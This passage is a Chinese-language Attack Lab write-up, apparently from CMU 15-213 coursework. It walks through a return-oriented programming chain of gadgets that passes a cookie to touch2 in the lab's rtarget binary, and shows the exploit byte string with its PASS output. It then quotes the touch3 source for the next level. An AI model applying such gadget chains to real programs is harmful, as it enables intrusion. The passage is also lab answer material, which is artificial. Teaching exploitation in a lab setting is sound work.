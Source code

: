 分析第五行使rip指向0x4019ab的位置![image-20220617195742288](pic/过程/image-20220617195742288.png)

执行此命令将下面rsp指向的值fa 97 b9 59 00 00 00 00弹出放到rax寄存器中，然后继续执行4019a3地址

![image-20220617200016370](pic/过程/image-20220617200016370.png)

然后在ret到4017ec就是touch2函数的起始位置处。

**首先注意ret的过程还得在细说一下，call命令会让rsp-0x08，然后rsp指向的位置就是下一条指令的地址值，调用ret之后此时的rsp指向的位置就会放到rip位置处，然后rsp+0x08，根据我们的本题情况会发现rip在执行的过程中执行一条命令就会到ret处，然后在从rsp中进行读取下一条指令的地址，如此下来就会不断的从rsp位置处读取指令的地址值，按照我们期望的情况执行下去。**

按照上面的分析就会发现，首先会执行`popq %rax`命令注意此时由于ret此时的rsp指向的是fa 97 b9 59 00 00 00 00，这个命令会将cookie的值放到rax寄存器中，此时rsp指向a3 19 40 00 00 00 00 00，rip继续向下执行会到ret命令处，ret命令会将rsp的指向值放到rip然后rsp+0x08，此时rip = 4019a3，执行movl %eax,%edi，然后我们就将cookie放到了rdi寄存器中，rip继续命令会执行ret，然后rip会弹出rsp位置处的值，此时rsp的值就是4017ec，touch2函数的开始位置。

```
$ cat r1 | ./hex2raw | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A3 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```



# 5(参考)

这一题类似于3，主要的目的是吊起touch3

```c
//将val数字转换成字符串，与sval字符串进行比较9位，如果相同返回1，否则返回0
int hexmatch(unsigned val, char *sval) {
    char cbuf[110];
    char *s = cbuf + rand() % 100;
    //将val转换成16进制的8位数使用s进行保存
    sprintf(s, "%.8x", val);
    //比较两个字符串的前n个字符相同返回0,s1大返回>0的值，反之返回<0
    printf("%s\n", s);
    return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval) {
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```